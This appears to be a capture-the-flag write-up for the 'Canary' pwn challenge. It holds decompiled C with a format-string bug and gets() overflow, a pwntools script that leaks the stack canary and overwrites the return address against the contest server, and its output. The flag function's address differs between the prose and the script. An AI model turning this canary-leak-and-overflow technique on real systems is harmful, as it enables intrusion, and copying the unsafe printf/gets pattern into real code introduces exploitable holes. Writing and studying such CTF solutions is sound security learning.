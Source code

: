 # Canary (261 solves)

Simple pwn challenge, requires leaking cookie with format sting vulnerability and overwriting ret address with buffer overflow.



The binary contains **flag** function at **0x400798** which we have to call to get the flag.

```c++
int flag()
{
  return system("/bin/cat flag.txt");
}
```

```c++
void greet()
{
  char format; 
  char v1; 
  unsigned long long v2; 

  cookie = __readfsqword(0x28u);
  printf("Hi! What's your name? ");
  gets(&format);
  printf("Nice to meet you, ");
  strcat(&format, "!\n");
  printf(&format);					// leak cookie
  printf("Anything else you want to tell me? ");
  gets(&v1);						// overwrite ret
}
```

Solution:

```python
from pwn import *
import re

def leak(r):
    payload = b''
    payload += b'%17$llx'
    r.sendlineafter('name? ', payload)
    raw = r.recvuntil('Anything')
    cookie = re.findall('you, (.*)!\n', raw.decode())[0]
    return int(cookie, 16)

if __name__ == "__main__":

    flag = 0x400787

    r = remote('shell.actf.co', 20701)
    c = leak(r)

    payload  = b''
    payload += b'A' * 56	# padding
    payload += p64(c)       # cookie
    payload += b'B' * 8		# padding
    payload += p64(flag)    # print flag	

    r.sendlineafter('tell me?', payload)
    r.interactive()
```

```bash
$ python3 solve.py
[+] Opening connection to shell.actf.co on port 20701: Done
[*] Switching to interactive mode
 actf{youre_a_canary_killer_>:(}
Segmentation fault
```

